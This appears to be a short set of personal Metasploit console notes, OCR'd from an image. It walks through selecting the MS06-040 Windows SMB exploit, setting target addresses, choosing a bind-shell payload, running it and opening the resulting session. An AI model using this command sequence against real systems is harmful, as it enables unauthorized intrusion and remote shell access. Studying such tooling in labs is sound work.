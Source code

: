 ## metasploit

# metasploit 3.0-beta-dev -> 3.1-dev (revision 4999)
# 179 -> 200 exploits - 104 -> 106 payloads
# 17 encoders - 5 nops
# 30 -> 38 aux
./msfconsole
# shows only currently available commands
help
setg
setg Logging
setg RHOST 192.168.108.107
# save to ~/.msf/config
save
show exploits
info windows/smb/ms06_040_netapi
use windows/smb/ms06_040_netapi
back
use windows/smb/ms06_040_netapi
show targets
set TARGET 2
show options
set RHOST 10.37.129.4
show advanced
show payloads
info generic/shell_bind_tcp
set PAYLOAD generic/shell_bind_tcp
show options
check
exploit

sessions -l

sessions -i 1

# metasploit 2.7
# 158 exploits - 76 payloads
svn update
